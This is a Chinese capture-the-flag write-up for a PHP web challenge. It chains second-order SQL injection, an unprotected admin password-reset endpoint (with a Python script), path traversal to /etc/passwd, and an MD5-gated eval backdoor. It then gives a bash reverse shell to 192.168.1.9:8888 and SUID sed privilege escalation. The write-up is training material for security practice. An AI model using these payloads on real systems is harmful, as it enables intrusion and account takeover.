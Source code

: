 打开开发者模式有一堆js文件，然后页面有个登录和注册的按钮，先尝试二次注入，先注册用户 admin"# 

登录后发现

```
Name admin
```

修改密码，成功登录admin

登录后，看源代码页面

```
<button onclick="updatePass()" type="button" class="disabled btn btn-sm btn-outline-secondary" data-target="#demo">保存</button>

发现不一样，虽然无法输入，但是改变密码使用的是updatePass()
```

```
function userUpdateInfo(){
			url: '/?c=user&m=updateUserInfo',
}
function updatePass(){
     //     url: '/?c=admin&m=updatePass',
}
```

我们先尝试，二次注入改变root密码，发现没有权限，所以使用我们admin的updatePass()来改变root密码

```
POST /?c=admin&m=updatePass HTTP/1.1
Host: node4.anna.nssctf.cn:28942
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 111
Origin: http://node4.anna.nssctf.cn:28942
Connection: close
Referer: http://node4.anna.nssctf.cn:28942/?c=user
Cookie: PHPSESSID=060fce0179d38738148d570a90676742

name=cm9vdA%3D%3D&newPass=202cb962ac59075b964b07152d234b70&oldPass=202cb962ac59075b964b07152d234b70&saying=MTIz

先从root"#改密码抓个包，然后登录admin,增加?c=admin&m=updatePass即可
```

还是用脚本方便点

```
import requests

url = 'http://node4.anna.nssctf.cn:28922/'
url1 = url + '?c=app&m=login'
url2 = url + '?c=admin&m=updatePass'

sess = requests.Session()

data = {
    "name": 'YWRtaW4=',#admin
    "pass": '202cb962ac59075b964b07152d234b70'#123
}
r = sess.post(url1, data=data)
print(r.text)

data = {
    "name": 'cm9vdA==',       # root
    "newPass": '202cb962ac59075b964b07152d234b70',    # 123
    "oldPass": '202cb962ac59075b964b07152d234b70',    # 123
    "saying": 'cm9vdA=='
}
r = sess.post(url2, data=data)
print(r.text)
```

有个仪表盘可以下载东西

```
GET /?c=root&m=downloadRequestLog&filename=../../../../../etc/passwd HTTP/1.1
Host: node4.anna.nssctf.cn:28379
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://node4.anna.nssctf.cn:28379/?c=root&m=getLogList
Cookie: PHPSESSID=060fce0179d38738148d570a90676742
Upgrade-Insecure-Requests: 1
```

存在目录穿越，查看敏感文件（当然也可以扫出来）知有一个强md5值碰撞

```
<?php 
if(md5(@$_GET['pass_31d5df001717'])==='3fde6bb0541387e4ebdadf7c2ff31123'){@eval($_GET['cc']);} 
// hint: Checker will not detect the existence of phpinfo.php, please delete the file when fixing the vulnerability.
?>
```

md5在线解密得到1q2w3e，得payload

```
http://node4.anna.nssctf.cn:28579/phpinfo.php?pass_31d5df001717=1q2w3e&cc=phpinfo();
```

连接蚁剑，打开终端输入`bash -c 'exec bash -i &>/dev/tcp/192.168.1.9/8888 <&1'`即可成功反弹shell



suid提权

```
find / -perm -u=s -type f 2>/dev/null
```

找到sed，可以用来处理文件，用命令`sed -n '1,$p' /flag`查看flag即可

